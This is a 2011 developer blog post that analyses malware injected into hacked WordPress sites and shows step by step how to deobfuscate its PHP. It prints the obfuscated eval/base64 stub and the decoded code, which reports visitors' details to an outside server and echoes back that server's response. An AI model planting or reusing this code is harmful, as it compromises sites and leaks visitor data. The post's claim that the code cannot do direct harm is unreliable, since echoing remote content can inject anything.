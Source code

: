 ```yaml
---
id: 333
title: Pulling apart a WordPress hack, unobfuscating its code
published: true
publishedDate: 2011-11-19 03:17:00Z
lastModifiedDate: 2011-11-19 03:17:00Z
categories:
- PHP
- Programming
- WordPress

---
```


Over the past few months, there have been a few vulnerabilies in PHP scripts utilised by various WordPress themes. One of the largest hacks was back in August, when a Remote File Inclusion (RFI) vulnerability was [found in TimThumb](http://wpcandy.com/reports/timthumb-security-vulnerability-discovered), a thumbnail generation script used by a lot of WordPress themes. This vulnerability allowed attackers to run **any** PHP code on vulnerable sites. As a result of this, [thousands of sites were hacked](http://www.theregister.co.uk/2011/11/02/wordpress_mass_compromise/).

The most common result of your site being hacked through like this is having some sort of malicious code added to your PHP files. This is often invisible, and people don't notice that their site has malicious code lurking in it until much later. However, sometimes the hacked code does have errors in it. One particular payload is being referred to as the "['Cannot redeclare' hack](http://digwp.com/2011/11/clean-up-cannot-redeclare-hack/)", as it causes an error like the following to appear in your site's footer:

> Fatal error: Cannot redeclare _765258526()
> (previously declared in /path/to/www/wp-content/themes/THEME/footer.php(12) 
> : eval()'d code:1) in /path/to/www/index.php(18) 
> : eval()'d code on line 1

This particular hack affects all the index.php and footer.php files in your WordPress installation. If you are affected by this hack and open any index.php or footer.php file, you'll see code that starts like this: ([the full code is on Pastebin](http://pastebin.com/8CCJz45k))

```php
<?php eval(gzuncompress(base64_decode('eF5Tcffxd3L0CY5Wj...
```

## Decoding the Code
If you're this far, I assume you're a PHP developer (or at least know the basics of PHP). The malicious code above is actually highly obfuscated PHP code, which means that the actual intent of the code is hidden and it looks like jibberish. The **eval** statement runs arbitrary PHP code, so this line of code will basically base64 decode and then run the big block of code. So... what does the code actually do? Obviously we can't tell with it in its current state. It does take a bit of effort, but this code can be "decoded" relatively easy. Obfuscation is not one-way, it can always be undone. While we can't get back the original variable names, we *can* see what functions the code is executing.

The first step in decoding this code is replacing all instances of **eval** with **echo**, and then running the script. This should output the code being executed, instead of actually executing it. After doing this, I ended up with something like the following:

```php
$GLOBALS['_2143977049_']=Array();
function _765258526($i){$a=Array();return base64_decode($a[$i]);}

eval(gzuncompress(base64_decode('eF5Tcffxd3L0CY5WjzcyMjM...
```
Great, another layer of gzipped/base64'd obfuscation. This technique is common with obfuscated code like this. Multiple layers of obfuscation makes it harder for someone to decode the code, as it requires more effort. I guess the "bad guys" think that people will get tired of trying to unobfuscate the code, and give up, or something like that. When a case like this is encountered, keep replacing **eval** with **echo** and re-running the script, until there's no eval statements left. After decoding all the eval'd code and formatting the resulting code, I [ended up with this](http://pastebin.com/sc0J6FB5). While there's readable code there now, it's still obfuscated.

Once you're this far, if you look closely at the code, you'll notice that a lot of it is encoded using base64. The next step to unobfuscating thid code is to decode all base64-encoded text. That is, find all instances of base64_decode(...) and replace it with the base64 decoded version. Once I did that, I ended up with this:

```php
<?php 
$GLOBALS['_226432454_']=Array();
function _1618533527($i)
{
        return '91.196.216.64';
}
 
$ip=_1618533527(0);
$GLOBALS['_1203443956_'] = Array('urlencode');
function _1847265367($i)
{
        $a=Array('http://','/btt.php?ip=','REMOTE_ADDR','&host=','HTTP_HOST','&ua=','HTTP_USER_AGENT','&ref=','HTTP_REFERER');
        return $a[$i];
}
$url = _1847265367(0) .$ip ._1847265367(1) .$_SERVER[_1847265367(2)] ._1847265367(3) .$_SERVER[_1847265367(4)] ._1847265367(5) .$GLOBALS['_1203443956_'][0]($_SERVER[_1847265367(6)]) ._1847265367(7) .$_SERVER[_1847265367(8)];
$GLOBALS['_399629645_']=Array('function_exists', 'curl_init', 'curl_setopt', 'curl_setopt', 'curl_setopt', 'curl_exec', 'curl_close', 'file_get_contents');
function _393632915($i)
{
    return 'curl_version';
}
if ($GLOBALS['_399629645_'][0](_393632915(0))) 
{
        $ch=$GLOBALS['_399629645_'][1]($url);
        $GLOBALS['_399629645_'][2]($ch,CURLOPT_RETURNTRANSFER,true);
        $GLOBALS['_399629645_'][3]($ch,CURLOPT_HEADER,round(0));
        $GLOBALS['_399629645_'][4]($ch,CURLOPT_TIMEOUT,round(0+0.75+0.75+0.75+0.75));
        $re=$GLOBALS['_399629645_'][5]($ch);
        $GLOBALS['_399629645_'][6]($ch);
}
else
{
        $re=$GLOBALS['_399629645_'][7]($url);  
}
echo $re;
?>
```

Now you simply need to go through the code and "execute it in your head". Follow the execution path of the code, and see which variables are used where. There's some usage of arrays to disguise certain variables. What I did was first replaced the two function calls (_1618533527 and _1847265367), and then replaced the array usages (_1203443956_, _399629645_ and _399629645_). Substitute the variables in the places they're used, and the code should be fully obfuscated. Once fully unobfuscated, the code came down to the following:

```php
<?php
$url = 'http://91.196.216.64/btt.php?ip=' . $_SERVER['REMOTE_ADDR'] . '&host=' . $_SERVER['HTTP_HOST'] . '&ua=' . urlencode($_SERVER['HTTP_USER_AGENT']) . '&ref=' . $_SERVER['HTTP_REFERER'];

if (function_exists('curl_version'))
{
	$ch = curl_init($url);
	curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
	curl_setopt($ch, CURLOPT_HEADER, 0);
	curl_setopt($ch, CURLOPT_TIMEOUT, 3);
	$re = curl_exec($ch);
	curl_close($ch);
}
else
{
	$re = file_get_contents($url);
}
echo $re;
```
So, what it's actually doing is sending a request to **91.196.216.64** (a server located in Russia), telling it your site's hostname, your user agent (what browser you're using), and the referer (how you got to the page). This is not directly malicious (this code can't directly do anything bad), which makes it interesting. My theory is that the developer of the worm is using this to create a list of all vulnerable sites, to use them for further hacks in the near future.

So, that's it. Hopefully this post wasn't too boring (and perhaps you even learnt how to unobfuscate code like this). As more people learn how to unobfuscate code like this, I suspect that the "hackers" will keep getting smarter and devising more clever code obfuscation techniques. Until then, finding out what the code actually does is relatively quick and easy, as I've demonstrated here.

Until next time,   
 — Daniel

